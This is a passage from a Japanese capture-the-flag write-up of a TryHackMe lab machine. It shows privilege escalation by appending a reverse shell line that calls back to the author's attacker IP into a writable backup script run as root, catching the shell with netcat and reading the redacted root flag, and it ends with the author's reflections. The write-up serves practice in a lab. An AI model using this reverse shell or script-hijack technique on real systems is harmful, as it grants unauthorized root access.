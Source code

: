 ```shell
ls -al /usr/local/bin/main_backup.sh
-rwxrwxr-x 1 root admin 65 Jan 17  2021 /usr/local/bin/main_backup.sh

cat /usr/local/bin/main_backup.sh
#!/bin/bash
cp -r /var/www/team.thm/* /var/backups/www/team.thm/
```

スクリプトの変更は可能。

```shell
ls -al /var/backups/www/team.thm/
total 28
drwxr-xr-x 5 root root 4096 Jan 17  2021 .
drwxr-xr-x 4 root root 4096 Jan 17  2021 ..
drwxr-xr-x 5 root root 4096 Jan 16  2021 assets
drwxr-xr-x 4 root root 4096 Jan 16  2021 images
-rwxr--r-- 1 root root 2966 Mar 15 04:17 index.html
-rw-r--r-- 1 root root    5 Mar 15 04:17 robots.txt
drwxr-xr-x 2 root root 4096 Jan 16  2021 scripts
```

タイプスタンプを見ると、毎分 root によって実行されている。

リバースシェルを追加。

```shell
echo 'sh -i >& /dev/tcp/10.2.22.182/8888 0>&1' >> /usr/local/bin/main_backup.sh
cat /usr/local/bin/main_backup.sh
#!/bin/bash
cp -r /var/www/team.thm/* /var/backups/www/team.thm/
sh -i >& /dev/tcp/10.2.22.182/8888 0>&1
```

ルートシェル取得。

```shell
$ nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.2.22.182] from (UNKNOWN) [10.10.62.228] 38422
sh: 0: can't access tty; job control turned off
# whoami
root
# 
```

```shell
# cat /root/root.txt
THM{..........}
```

ルートフラグゲット！

## 振り返り

- 全然簡単ではなく、かなり難しく感じた。
- ドメイン名が（CTFのタイトル以外で）示唆されていないのに推測して hosts 変更が必要なパターンは初めて。
- ドメイン名を途中で変更するパターンも初めて。
- directory-list-2.3-medium.txt に、script という超基本的なワードが含まれていないことに初めて気づいた。今後は他のリストとマージして使うことにする。
- 拡張子oldを発見するのも、sshd_config を発見するのも難しかった。
